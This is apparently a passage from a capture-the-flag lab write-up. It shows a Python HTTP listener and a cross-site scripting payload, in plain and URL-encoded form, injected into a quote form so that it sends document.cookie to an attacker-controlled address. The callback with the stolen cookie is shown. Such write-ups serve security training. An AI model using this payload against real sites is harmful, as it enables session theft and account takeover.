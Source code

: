 ![](images/2024-04-06_15-09_quote_submit_burpsuite_payload.png)

```c
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.43.86 - - [06/Apr/2024 15:13:53] "GET / HTTP/1.1" 200 -
```

## Cookie Stealing

Since the main page showed a button to `login page`, we grabbed a basic payload to `steal a cookie` via `XSS` which we also `URL encoded` using the same shortcut as before.

#### Basic payload

```c
<img src=x onerror="location.href='http://10.10.14.7/?c='+ document.cookie">
```

#### URL encoded payload

```c
service=Carpet+Cleaning&service=Tile+%26+Grout&service=<img+src%3dx+onerror%3d"location.href%3d'http%3a//10.10.14.7/%3fc%3d'%2b+document.cookie">&email=foobar%40foobar.local
```

And again, after forwarding it through `Repeater` it only took a few seconds to receive the `callback` containing a `cookie`.

